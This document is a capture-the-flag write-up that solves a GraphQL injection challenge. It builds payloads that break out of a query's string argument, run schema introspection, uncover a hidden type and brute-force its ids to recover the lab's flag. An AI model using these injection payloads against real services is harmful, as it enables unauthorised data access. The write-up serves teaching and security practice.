

Here, we can see the request is: `q=Iran` and answer is:

```graphql
{
    "data":{
        "rockets":[
            {
                "name":"Safir",
                "country":"Iran",
                "is_active":1
            },
            {
                "name":"Qased",
                "country":"Iran",
                "is_active":1
            }
        ]
    }
}
```

Okay, it's looks like `GraphQL`.
Let's assume the request is looks like this: `
```gql
query {
    getRockets(country: "$input"){
        name
        country
        is_active
    }
}
```
So, let's give this payload: `Iran"){name}} #`, and see what we get:
```gql
{
    "data":{
        "rockets":[
            {
                "name":"Safir"
            },
            {
                "name":"Qased"
            }
        ]
    }
}
```
Working!!!

Let's do `GraphQL Injection`.

We will give this input: `q=Iran"){name}__schema {types{name}}}#`, then, the query will look like this:
```gql
query {
    getRockets(country: "Iran"){
        name
    }
    __schema{
        types{
            name
        }
    }
}# <- here is the comment ->
        name
        country
        is_active
    }
}
```
And all what comes after the comment will be ignored.

We can see this `HackerInSpace` type, so let's look inside it: `q==Iran"){name}__type(name: "HackerInSpace"){name fields {name}}}#`

We get this as response:
```gql
"__type":{
    "name":"HackerInSpace",
    "fields":[
            {
            "name":"hacker_id"
            },
            {
                "name":"hacker_value"
            }
        ]
    }
```

Okay, so let's try: `q==Iran"){name}HackerInSpace(hacker_id:1){hacker_id hacker_value}}#` and just use burp intruder to change id.


the result: `Congraatulations, you can use this flag: RM{3esy_gr@phql_b@ck3nd_1nj3ct10n}`

**Flag:** **_`RM{3esy_gr@phql_b@ck3nd_1nj3ct10n}`_**
